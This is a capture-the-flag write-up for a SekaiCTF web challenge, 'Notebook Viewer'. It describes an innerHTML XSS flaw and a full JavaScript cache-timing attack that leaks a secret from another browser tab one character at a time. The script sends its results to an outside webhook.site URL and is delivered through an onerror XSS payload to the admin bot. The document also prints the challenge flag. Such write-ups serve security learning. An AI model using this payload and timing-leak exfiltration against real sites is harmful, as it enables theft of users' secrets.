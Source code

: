 ```yaml
---
title: Notebook Viewer
summary: Miku created this notebook, can you extract its secrets?
tags: [SekaiCTF, Web, Timing Attack]
date: 2025-08-18
showtoc: true
---
```


# Notebook Viewer

## Description

Miku created this notebook, can you extract its secrets?

Flag format: `SEKAI{[a-zA-Z0-9{}$@(<&!*#+_\-]+}`

Difficulty: 🔶🔶🔶  
Author: Qyn

[Admin bot](https://ctf.sekai.team/adminbot/nbv)  
[Given files](/sekaictf/notebook-viewer/nbv-dist.7z)

## Solution

The challenge presents a single HTML page displaying a notebook.

![index.html](/sekaictf/notebook-viewer/index.png)

From examining the bot's source code, we know that we need to retrieve the secret note from another browser tab.

```adminbot.js
let page1 = await browser.newPage();
await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
    waitUntil: "networkidle2"
});

let page2 = await browser.newPage();
await page2.goto(url);
```

At first glance, this seems impossible, because browser tabs typically can't interact with each other.
However, let's explore further.

The first thing I attempted was an XSS attack in the secret note with `?note=<img src=x onerror=alert('XSS') />`, but this didn't work.
I then inspected the page's JavaScript code to see if any sanitization was applied.
There was no sanitization, but the text was displayed in a peculiar way: each letter was rendered in its own iframe, preventing the XSS from executing.

```index.js
const uri = new URL(location.href);
const note = uri.searchParams.get('note') || 'my secret notes';

function srcFor(i, code) {
  return `https://nbv-${i}-${code}.chals.sekai.team/`;
}

for (let i = 0; i < note.length; i++) {
  const code = note.codePointAt(i);
  const frame = document.createElement('iframe');
  frame.scrolling = 'no';
  frame.src = srcFor(i, code);
  wrap.appendChild(frame);
}
```

Upon inspecting the iframe code, I discovered that it simply displayed the letter specified in its URL or the text passed through the query parameter.
This opened the door for an XSS vulnerability.

```frame.js
let uri = new URL(location.href);
const note = uri.searchParams.get("note");
const txt = document.querySelector('#note');

if (note)
    txt.innerHTML = note;
else
    txt.innerHTML = String.fromCharCode(uri.host.split('-')[2].split('.')[0]);
```

At this point, I had reviewed the provided files, understood how the application worked, found an XSS vulnerability, but still had no clear idea on how to retrieve the flag.

Then, I asked myself: why does the `srcFor` function include the character position when building the iframe URL? It isn't used by the iframe.
That's when it clicked: the combination of the character position and code is used to generate a unique URL for each letter, which potentially exposed the website to a resource timing attack.

Let's break down how the website operates:
- The flag is stored as a secret note.
- For each letter, the website sends a request to a URL containing the letter's position and code, and displays the letter in an iframe.
- Because the browser caches these requests, we can exploit this by making requests for all possible letters and observe which one is served fastest.
- The letter that is served the quickest will be the one already cached, meaning it’s part of the flag.

To automate this process, I wrote a script that attempts all characters for a given position and reports the most probable characters, ordered by fetch time, via a webhook.
While I could have attempted to guess multiple letters at once, I avoided this as it might have caused the flag request to become uncached due to the large volume of requests made by the script.

```js
const INDEX = 1; // Letter position
const CHARSET = shuffle(
  // Shuffle the charset to avoid giving an advantage to the first letters
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}@(<&!*#+_-",
);

const URL = (i, code) => `https://nbv-${i}-${code}.chals.sekai.team/`;
const WEBHOOK = "https://webhook.site/e5245448-2fa6-417d-9348-65d36f92d28e/";

function shuffle(str) {
  const array = str.split("");
  for (let i = array.length - 1; i > 0; i--) {
    const j = Math.floor(Math.random() * (i + 1));
    [array[i], array[j]] = [array[j], array[i]];
  }
  return array.join("");
}

function sort(dict) {
  let items = Object.keys(dict).map(function (key) {
    return [key, dict[key]];
  });

  items.sort(function (first, second) {
    return first[1] - second[1];
  });

  return items.map((key) => key[0]);
}

async function timingAttack() {
  const fetchPromises = []; // Array to store all fetch promises
  const charTimes = {}; // Object to store character-fetch times

  // PerformanceObserver to monitor network fetch timings
  let observer = new PerformanceObserver((list) => {
    list.getEntries().forEach((entry) => {
      const timeToFetch = entry.responseEnd - entry.fetchStart;
      if (timeToFetch > 0 && entry.name.includes("chals.sekai.team")) {
        const char = String.fromCharCode(
          entry.name.split("-")[2].split(".")[0],
        );
        charTimes[char] = timeToFetch;
      }
    });
  });

  observer.observe({ type: "resource", buffered: true });

  // Fetch the iframe URL for each character
  for (const c of CHARSET) {
    fetchPromises.push(fetch(URL(INDEX, c.charCodeAt(0)), { mode: "no-cors" }));
  }

  // Wait for all fetch requests to complete
  await Promise.all(fetchPromises);

  observer.disconnect();

  // Send the results (sorted character fetch times) to the webhook
  fetch(`${WEBHOOK}?${INDEX}=${encodeURIComponent(sort(charTimes).join(""))}`, {
    mode: "no-cors",
  });
}

timingAttack();
```

To execute the script, I used the XSS vulnerability I discovered earlier, embedding the link to the admin bot: `https://nbv-0-83.chals.sekai.team/?note=<img src=x onerror='[URL_ENCODED_SCRIPT]' />`.
Using this technique, I was able to retrieve the entire flag, one letter at a time, by sending my link to the admin bot 4-5 times per character to determine the consistently fastest response.

```
SEKAI{prOc3s5_IsoLAT10n_X5l34K5_fTW}
```

# References

- Practical CTF: [Timing Attacks](https://book.jorianwoltjer.com/cryptography/timing-attacks)
